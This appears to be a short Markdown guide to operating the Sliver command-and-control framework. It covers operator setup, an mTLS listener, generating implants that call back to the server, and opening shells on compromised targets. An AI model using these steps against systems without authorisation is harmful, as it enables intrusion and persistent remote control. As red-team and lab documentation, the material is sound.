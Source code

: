 # 1. Administrating Sliver

1. Connect to the server on the host that is installed:
```bash
sliver
```
2. Enable Multiplayer mode, so that other users can connect to the sliver server
```bash
multiplayer
```
3. Create new operators (do this for each team member):
```bash
multiplayer
new-operator --name <operator_name> --lhost <sliver_server_ip>
```

This will generate:
- A config file for the operator that will need to be passed to other operators
- Certificates for authentication

# 2. Create a Listener

This is the listener that will catch the payload from our implant and give us the persistent access. We will create an `mtls` listener. You can also create an `http`, `https`, and `dns`.
```bash
mtls
```

# 3. Generating Implants

To create a implant, use the generate command:

generate --mtls --ip <SLIVER_IP> --os <Target_OS>

    --mtls: Specifies mutual TLS encryption.
    --ip: The IP address of your Sliver server.
    --os: Target operating system (e.g., windows, linux, macos).
    --save: OPTIONAL - You can use the save option to save to an specific path in your vm (e.g, /home/ubuntu).
It will give usually save the payload on your `/home/ubuntu` under a random name. It might look like this "RANDOM_NAME"

# 4. Interact with the Target

Once the implant is delivered and executed on the target, you’ll see the session appear in the Sliver client interface. Interact with the target by selecting the session:
This command will display all sessions:
```bash
sessions
```
You can interact with an specific sessions with:
```
use <session_id>
```

# 5. Execute Commands

Use Sliver commands to execute tasks on the compromised system:

help    # View available commands
shell   # Open a shell on the target system

# 6. Operator Configuration

> [!NOTE]  
> You will need to obtain the configuration file from the sliver server admin

Operators need to:
1. Install the Sliver client on their machine:
    1. Download the latest sliver client binary for their linux host https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-client_linux .
    2. Copy the binary into `/usr/local/bin` so that you can just type `sliver` from the cli and it will connect you. 
    ```bash
    cp <PATH_OF_DOWNLOADED_SLIVER_CLIENT_FILE> /usr/local/bin
    ```
3. Copy their configuration file to `~/.sliver/configs/`
    1. If the `~/.sliver/configs` folder doesn't exist. Create it.
5. Connect to the server using:
```bash
sliver
```
You should be able to connect to the sliver server now as your operator.

# 7. Common Commands

List all operators
```bash
operators
```
Remove an operator
```bash
remove-operator <operator_name>
```
List active sessions
```bash
sessions
```

Switch between sessions
```bash
use <session_id>
```

## Troubleshooting

1. If the service fails to start:
   - Check logs: `journalctl -u sliver.service`
   - Verify permissions on config directory
   - Ensure required ports are open

2. Connection issues:
   - Verify operator config is correctly placed
   - Check firewall rules
   - Ensure certificates are valid

## Additional Resources

- [Official Sliver Documentation](https://sliver.sh/docs)
- [GitHub Repository](https://github.com/BishopFox/sliver)
- [Security Considerations](https://sliver.sh/docs?name=Security)
